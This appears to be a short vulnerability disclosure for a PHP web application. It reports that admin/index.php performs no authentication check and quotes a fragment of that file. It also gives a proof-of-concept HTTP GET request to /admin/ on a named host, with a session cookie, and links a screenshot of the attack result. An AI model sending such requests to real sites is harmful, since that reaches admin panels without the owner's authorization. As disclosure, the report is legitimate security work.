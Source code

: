 ### Vulnerability file address

`admin/index.php` There is no authentication check on the cookie or session or header header, resulting in unauthorized access

```php
<?php

session_start();
?>
..........
..........
..........
<?php  //success message
if(isset($_POST['success'])) {
$success = $_POST["success"];
echo "<h1 style='color:#0C0'>Your Product was added successfully &nbsp;&nbsp;  <span class='glyphicon glyphicon-ok'></h1></span>";
}
?></h3>
	</div>
</div></div></div>
<?php include("include/js.php"); ?>
</body>
</html>
```

### POC

```http
GET /admin/ HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220727170250049](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220727170255.png)